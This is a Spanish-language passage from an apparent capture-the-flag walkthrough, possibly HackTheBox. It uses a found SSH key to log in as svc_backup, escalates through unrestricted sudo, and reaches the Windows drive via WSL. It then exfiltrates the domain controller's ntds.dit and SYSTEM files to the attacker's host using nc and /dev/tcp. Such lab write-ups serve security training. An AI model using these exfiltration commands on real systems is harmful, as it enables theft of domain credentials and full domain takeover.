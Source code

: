 nos conseguimos con una llave ssh y una nota por lo que lo descargamos y leemos la nota

<img width="1917" height="296" alt="image" src="https://github.com/user-attachments/assets/3adcf90a-57cb-41ab-a7fe-2587761ce1be" />

como no se a quien pertenece la llave ssh, vamos a averiguarlo

```bash
cat id_rsa |grep -v - |tr -d '\n' |base64 -d
```

<img width="1917" height="395" alt="image" src="https://github.com/user-attachments/assets/1bcfa91b-7237-408b-a2a5-0d1e8e692e35" />

le pertenece al usuario `svc_backup`, le asignamos los permisos adecuados a la llave ssh y accedemos

```bash
chmod 600 id_rsa 
```

```bash
ssh -i id_rsa svc_backup@10.10.11.76 -p 2222
```


<img width="1917" height="710" alt="image" src="https://github.com/user-attachments/assets/4a6015e2-bad4-4de9-af13-3d02c64792fe" />


consultamos los permisos sudo y vemos que podemos ejecutar cualquier comando como root asi que escalamos 

<img width="1917" height="441" alt="image" src="https://github.com/user-attachments/assets/ec3a43fb-c977-4ef5-a662-b382bb7314ea" />

revisando el sistema, podemos ver que se a montado la unidad `C:\` de Windows wn `/mnt/c`

<img width="1917" height="441" alt="image" src="https://github.com/user-attachments/assets/3fbfab39-bc77-4bb8-ac2a-44b02b2a465e" />

asi que navegamos hasta el directorio `/mnt/c`

<img width="1917" height="582" alt="image" src="https://github.com/user-attachments/assets/fb7d64c0-40f5-4a0c-8ac7-19ba91c4adb3" />

es decir, tenemos acceso al sistema Windows desde `WSL`, navegamos hasta el directorio donde obtuvimos la llave `ssh` y la nota para acceder hasta el directorio `backup` que estaba alli

<img width="1917" height="374" alt="image" src="https://github.com/user-attachments/assets/9d1cc09a-1ad1-4803-bad3-07febe293fd1" />

teniendo acceso a estos archivos tenemos control total del `DC` asi que vamos a ello. Primero vamos a pasar los archivos `ntds.dit` y `SYSTEM` a nuestra maquina

>>> Desde nuestra maquina

```bash
nc -lnvp 5555 > ntds.dit
```

>>> Desde la Instancia ssh

```bash
cat ntds.dit > /dev/tcp/10.10.14.152/5555
```
a continuacion enviamos el `SYSTEM` repitiendo el proceso
